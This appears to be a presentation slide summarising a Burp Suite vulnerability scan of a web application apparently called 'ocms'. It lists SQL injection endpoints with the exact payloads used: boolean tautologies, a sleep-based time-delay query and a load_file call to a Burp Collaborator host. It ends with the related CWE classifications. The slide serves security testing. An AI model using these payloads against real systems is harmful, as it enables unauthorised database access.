

# Burp suite Report Analysis
SQL injection:
/ocms/admin/pageViewMembers.php?searchMembers=145817&groupID=0&status=138707587%20or%209037%3d09037&searchField=0&page=1
Error Message: payload 38707587 or 9037=09037
/ocms/hooks/patient_prescription.php?search=90191398963262'%20or%208004%3d8004--%20
Error Message: 98963262' or 8004=8004--
/ocms/hooks/patient_diagnosis.php [Method : POST]
Code Injection: '+(select load_file('\\\\c0df40ldznkv8kfgxp3j0k0spjvcj4as1vpncd02.burpcollaborator.net\\jby'))+’ interacted with an external domain [DNS lookup of type A -IP address 24.201.141.186]
Error Message: 22601788' or 2388=2388--
/ocms/hooks/patient_history.php  [Method: POST]
Error Message: payload 95747182' or 7702=7702—
Time Delay: payload '+(select*from(select(sleep(20)))a)+’ caused 20705ms response to the request.
Vulnerability classifications:
    CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
    CWE-94: Improper Control of Generation of Code ('Code Injection')
    CWE-116: Improper Encoding or Escaping of Output